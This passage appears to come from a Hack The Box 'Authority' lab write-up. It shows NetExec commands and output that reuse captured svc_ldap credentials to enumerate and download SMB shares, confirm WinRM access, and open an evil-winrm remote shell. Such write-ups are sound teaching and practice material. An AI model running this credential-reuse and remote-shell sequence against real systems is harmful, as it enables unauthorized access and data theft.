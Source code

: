 ```bash
❯ nxc smb  10.10.11.222 -u  'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
SMB          10.10.11.222   445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB          10.10.11.222   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
❯ nxc smb  10.10.11.222 -u  'svc_ldap' -p 'lDaP_1n_th3_cle4r!' --shares
SMB          10.10.11.222   445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB          10.10.11.222   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
SMB          10.10.11.222   445    AUTHORITY        [*] Enumerated shares
SMB          10.10.11.222   445    AUTHORITY        Share           Permissions     Remark
SMB          10.10.11.222   445    AUTHORITY        -----           -----------     ------
SMB          10.10.11.222   445    AUTHORITY        ADMIN$                          Remote Admin
SMB          10.10.11.222   445    AUTHORITY        C$                              Default share
SMB          10.10.11.222   445    AUTHORITY        Department Shares READ
SMB          10.10.11.222   445    AUTHORITY        Development     READ
SMB          10.10.11.222   445    AUTHORITY        IPC$            READ            Remote IPC
SMB          10.10.11.222   445    AUTHORITY        NETLOGON        READ            Logon server share
SMB          10.10.11.222   445    AUTHORITY        SYSVOL          READ            Logon server share

❯ nxc smb  10.10.11.222 -u  'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -M spider_plus -o DOWNLOAD_FLAG=true
SMB          10.10.11.222   445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB          10.10.11.222   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
SPIDER_P...  10.10.11.222   445    AUTHORITY        [*] Started module spidering_plus with the following options:
SPIDER_P...  10.10.11.222   445    AUTHORITY        [*]  DOWNLOAD_FLAG: True
...snip...
...snip...
SPIDER_P...  10.10.11.222   445    AUTHORITY        [+] All files processed successfully.

❯ /bin/cat /tmp/nxc_spider_plus/ 10.10.11.222.json | jq -r '."Department Shares"'
{}
```

The obtained credentials also provide access over WinRM. I successfully logged in as `svc_ldap` using evil-winrm.

```bash
❯ nxc winrm  10.10.11.222 -u  'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
WINRM        10.10.11.222   5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM        10.10.11.222   5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

❯ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
htb\svc_ldap
*Evil-WinRM* PS C:\Users\svc_ldap\Documents>
```

---